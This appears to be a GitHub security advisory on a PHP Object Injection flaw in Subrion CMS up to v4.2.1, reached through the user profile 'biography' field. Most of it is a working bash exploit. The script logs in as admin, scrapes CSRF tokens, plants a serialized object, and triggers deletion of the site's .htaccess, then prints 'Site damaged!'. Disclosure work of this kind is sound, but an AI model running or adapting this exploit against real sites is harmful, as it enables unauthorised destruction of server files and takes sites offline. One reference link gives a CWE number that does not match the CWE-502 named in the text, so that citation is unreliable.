 # Actions - PHP Object Injection

This vulnerability was found almost contemporaneously by both me and MS509 Team. As the first public appearance of this issue was made by them on the github page of Subrion, the author of this post is not taking credit for this finding. The aim of this report was to provide a slightly different exploitation method and a public, working exploit.

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS up to v4.2.1. It has been rated as problematic. Affected by this issue is the file `/actions.php`. The manipulation of the of the **biography** value within a user profile leads to a PHP Object Injection vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able inject arbitrary PHP objects within the application context, and use them to achive arbitrary file deletion.

The weakness was originally presented by **flystart** of Mission Studio Team [MS509](https://www.ms509.com/) on 03/05/2020. A public exploit was released on 04/14/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory (english) is shared for download at github.com. This vulnerability is not handled as a CVE currently. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

The following script may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"
id=1 # ID 1 = Admin
debug=0

# Grep Session Cookie Name
sess_cookie=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*\=\w*")
cookies="Cookie: loader=loaded; $sess_cookie"
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
echo "[*] Logging in"
# Fix the Session Cookie Value and login
res=$(curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "$cookies" -i | grep "Set-Cookie")

echo "[*] Adding evil PHP Object within biography"
# Get CSRF Token
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/members/edit/$id/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)

# Generating Payload
payload=$(php serializer.php -c s -t a)

if [ $debug -gt 0 ]; then
    echo $payload
fi

# Add the crafted parameter
res=$(curl -i -s -k -X "POST" -x $proxy -H "Expect:" -H "$cookies" -F "__st=$csrf_token" -F "username=admin" -F "fullname=Administrator" -F "email=admin@subrion.local" -F "email_language=en" -F "save=1" -F "goto=list" --form-string "biography=$payload" "$target/members/edit/1/")

if [[ $(echo $res | grep "HTTP/1.1" | grep "302") == "" ]]; then
    echo "Could not add the evil PHP Object"
    exit 1
fi
echo "[*] Triggering File deletion"
# Get CSRF token
csrf_token=$(curl -ks -H "$cookies" -x $proxy $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Get block ID to trigger
res=$(curl -i -s -k -X "POST" -H "$cookies;  XDEBUG_SESSION=XDEBUG_ECLIPSE;" -x $proxy "$(echo $target | sed 's/panel\///g')/actions.json" -F "__st=$csrf_token" -F "action=edit-picture-title" -F "field=biography" -F "item=member" -F "itemid=$id" -F "path=tmp" )

# Confirming deletion, checking 404 
res=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/blocks/" | head -n 1 | grep -oP "\d{3}")
if [[ "$res" == "404" ]]; then
    echo "[+] Done! Site damaged!"
else
    echo "[-] Error, site patched!"
fi
```

Using the above script should give the following output, proving the vulnerability.

```
$ ./exploit.sh
[*] Logging in
[*] Adding evil PHP Object
[*] Triggering File deletion
[+] Done! Site damaged!
```

When the script finishes, the site should not be reachable anymore, as the .htaccess has been deleted. In case the configuration of the site is more robust, check for the presence of `.htaccess` within Subrion HOME direcotry.

## Remediation

It seems the vulnerability is not exploitable on the latest branch. Updating to the latest version should solve the issue.

## References

* [https://www.ms509.com/2020/03/27/Subrion-Cms-Code-Audit/](https://www.ms509.com/2020/03/27/Subrion-Cms-Code-Audit/)
* [https://cwe.mitre.org/data/definitions/1236.html](https://cwe.mitre.org/data/definitions/1236.html)
* [https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)
